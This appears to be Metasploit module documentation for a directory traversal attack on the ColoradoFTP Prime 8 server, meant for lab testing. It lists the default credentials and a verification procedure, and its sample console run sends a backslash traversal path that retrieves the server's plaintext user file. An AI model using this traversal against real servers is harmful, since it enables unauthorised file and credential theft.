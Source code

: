 ## Notes

While the application is based in java, I was only able to get it to exploit against Windows based targets.

## Vulnerable Application

  [official site](http://cftp.coldcore.com/files/coloradoftp-prime-8.zip?site=cft1&rv=19.1&nc=1) or [github backup](https://github.com/h00die/MSF-Testing-Scripts/raw/master/coloradoftp-prime-8.zip)
  
When installing, you must edit conf/beans.xml line 183 "remoteIp" to put in your IP or else `pasv` won't work.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/scanner/ftp/colorado_ftp_traversal`
  4. Do: `set rhosts <ip>`
  5. Do: `run`
  6. You should get the xml-users.xml file

## Options

### FTPUSER

  Default user for Colorado FTP is `ftpuser`

### FTPPASS

  Default password for Colorado FTP is `ftpuser123`

### DEPTH

  Default depth of ../ to do is 2 to get back to the root of Colorado FTP.  This can run anywhere, so you may have to play a bit to find the root.

## Scenarios

  A run to obtain the user file (default in this case)

    msf > use auxiliary/scanner/ftp/colorado_ftp_traversal
    msf auxiliary(colorado_ftp_traversal) > set rhosts 1.1.1.1
    rhosts => 1.1.1.1
    msf auxiliary(colorado_ftp_traversal) > set verbose true
    verbose => true
    msf auxiliary(colorado_ftp_traversal) > exploit
    
    [*] 1.1.1.1:21      - Connecting to FTP server 1.1.1.1:21...
    [*] 1.1.1.1:21      - Connected to target FTP server.
    [*] 1.1.1.1:21      - Authenticating as ftpuser with password ftpuser123...
    [*] 1.1.1.1:21      - Sending password...
    [*] 1.1.1.1:21      - \\\..\..\conf\xml-users.xml
    [*] 1.1.1.1:21      - 150 Opening A mode data connection for \\\..\..\conf\xml-users.xml.
    
    [*] 1.1.1.1:21      - Data returned:
    
    <users>
    
      <user name="ftpuser" pass="ftpuser123"/>
    
    </users>
    [+] 1.1.1.1:21      - Stored conf\xml-users.xml to /root/.msf4/loot/20160918184409_default_1.1.1.1_coloradoftp.ftp._168381.xml
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
